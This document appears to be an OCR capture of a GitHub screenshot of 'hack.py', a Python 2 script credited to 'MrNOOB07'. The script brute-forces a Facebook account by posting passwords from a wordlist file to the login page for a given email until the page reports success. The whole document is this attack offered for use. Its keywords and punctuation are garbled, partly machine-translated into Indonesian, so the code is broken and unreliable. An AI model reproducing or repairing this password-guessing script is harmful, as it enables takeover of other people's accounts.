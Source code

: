 # hack.py
#! / ust / bin / python2 impor  os  permintaan impor  waktu impor impor  sys email  =  raw_input (" email_ > ) url = ' https : // gratis . facebook . com / login . php ex  =  open '( ' word.txt ' ), ' r ' ) readlines ()      untuk  baris  di  ex :     kata sandi  =  baris . strip ')     http  =  permintaan . posting ( url , data = { 'email' : email , 'pass' : password , 'login' : 'submit'     konten  =  http . kandungan     jika  "Beranda"  di  konten :         cetak  "[+] Kata Sandi Ditemukan" , kata sandi     lain :         cetak  "[+] Kata Sandi Tidak Valid"  penggunaan def ():            cetak ( "Oleh MrNOOB07" ) cetak ( "[1] HackFBSTRIKE" )
#! / ust / bin / python2
impor  os
 permintaan impor
 waktu impor
impor  sys
email  =  raw_input (" email_ > )
url = ' https : // gratis . facebook . com / login . php
ex  =  open '( ' word.txt ' ), ' r ' ) readlines ()
    
untuk  baris  di  ex :
    kata sandi  =  baris . strip ')
    http  =  permintaan . posting ( url , data = { 'email' : email , 'pass' : password , 'login' : 'submit'
    konten  =  http . kandungan
    jika  "Beranda"  di  konten :
        cetak  "[+] Kata Sandi Ditemukan" , kata sandi
    lain :
        cetak  "[+] Kata Sandi Tidak Valid"
 penggunaan def ():
           cetak ( "Oleh MrNOOB07" )
cetak ( "[1] HackFBSTRIKE" )
